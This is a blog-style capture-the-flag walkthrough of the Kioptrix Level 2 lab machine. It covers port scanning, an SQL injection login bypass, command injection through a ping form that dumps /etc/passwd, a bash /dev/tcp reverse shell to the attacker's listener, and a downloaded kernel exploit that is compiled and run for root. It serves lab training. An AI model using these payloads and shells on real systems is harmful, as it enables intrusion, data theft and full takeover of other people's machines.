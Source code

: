 ```yaml
---
layout: single
title: Kioptrix Level 2 CTF Walkthrough
date: 2017-07-30
categories:
  - security
  - ctf
  - walkthrough
tags:
  - kioptrix
  - vulnhub
---
```

## Service Discovery & Authentication Bypass
An Nmap scan [`nmap -sS -sV -T4 -Pn -vv 192.168.22.130`] revealed a number of different services running on the machine and fingerprinted the machine as running CentOS:

```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 64 OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  syn-ack ttl 64 2 (RPC #100000)
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      syn-ack ttl 64 CUPS 1.1
3306/tcp open  mysql    syn-ack ttl 64 MySQL (unauthorized)
```

Navigating to the default page of the web server presented me with a login panel, which was not sanitising user input. I was able to bypass the login page by using `admin` as the username and `'or'a'='a` as the password.

## Exploiting The Web Application
Once past the login screen, the web server presented me with a form which allowed me to ping other machines. Passing a valid IP address to this form resulted in output that looks like the standard output of the `ping` command:

```http
HTTP/1.1 200 OK
Date: Sun, 30 Jul 2017 12:36:41 GMT
Server: Apache/2.0.52 (CentOS)
X-Powered-By: PHP/4.3.9
Content-Length: 430
Connection: close
Content-Type: text/html; charset=UTF-8

192.168.22.129<pre>PING 192.168.22.129 (192.168.22.129) 56(84) bytes of data.
64 bytes from 192.168.22.129: icmp_seq=0 ttl=64 time=1.01 ms
64 bytes from 192.168.22.129: icmp_seq=1 ttl=64 time=0.274 ms
64 bytes from 192.168.22.129: icmp_seq=2 ttl=64 time=0.261 ms

--- 192.168.22.129 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.261/0.517/1.018/0.354 ms, pipe 2
</pre>
```

As the input was seemingly being passed directly to a system command, I tweaked the POST request to `pingit.php` in Burp so that the `ip` field had a value of `192.168.22.129; cat /etc/passwd` and as expected, the response from the server contained the contents of `/etc/passwd`; meaning it was vulnerable to command injection:

```http
HTTP/1.1 200 OK
Date: Sun, 30 Jul 2017 12:41:01 GMT
Server: Apache/2.0.52 (CentOS)
X-Powered-By: PHP/4.3.9
Content-Length: 2220
Connection: close
Content-Type: text/html; charset=UTF-8

192.168.22.129; cat /etc/passwd<pre>PING 192.168.22.129 (192.168.22.129) 56(84) bytes of data.
64 bytes from 192.168.22.129: icmp_seq=0 ttl=64 time=0.964 ms
64 bytes from 192.168.22.129: icmp_seq=1 ttl=64 time=0.230 ms
64 bytes from 192.168.22.129: icmp_seq=2 ttl=64 time=0.215 ms

--- 192.168.22.129 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.215/0.469/0.964/0.350 ms, pipe 2
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
netdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bash
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
</pre>
```

With this vulnerability confirmed, I started a listener on my local machine using `ncat -v -n -l -p 5555` and altered the POST request again to establish a reverse TCP shell using the command `bash -i >& /dev/tcp/192.168.22.129/5555 0>&1` which established a shell running as `apache` in `/var/www/html`:

```shell_session
root@kali:~# ncat -v -n -l -p 5555
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 192.168.22.130.
Ncat: Connection from 192.168.22.130:32771.
bash: no job control in this shell
bash-3.00$ whoami
apache
bash-3.00$ pwd
/var/www/html
bash-3.00$
```

## Privilege Escalation
Looking at the contents of `index.php` revealed the password for the MySQL user `john` in the call to `mysql_connect`: `mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());`

As this user also exists in `/etc/passwd`, I attempted to authenticate as `john` to see if there were any sudo rights which may help escalate further; but the passwords appeared to be different:

```shell_session
bash-3.00$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.00$ su john
su john
Password: hiroshima

su: incorrect password
bash-3.00$
```

Next, I found a kernel exploit (https://www.exploit-db.com/exploits/9545/) which affects a wide range of versions, including the kernel the machine is using.

I started a local web server to transfer the exploit (`python -m SimpleHTTPServer 80`) and then proceeded to download it on the target, compile it, and execute it to get a root shell:

```shell_session
bash-3.00$ cd /dev/shm
bash-3.00$ wget 192.168.22.129/ssp.c
--10:03:22--  http://192.168.22.129/ssp.c
           => `ssp.c'
Connecting to 192.168.22.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9,409 (9.2K) [text/plain]

    0K .........                                             100%  897.31 MB/s

10:03:22 (897.31 MB/s) - `ssp.c' saved [9409/9409]

bash-3.00$ gcc ssp.c -o ssp
bash-3.00$ ./ssp
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00#
```
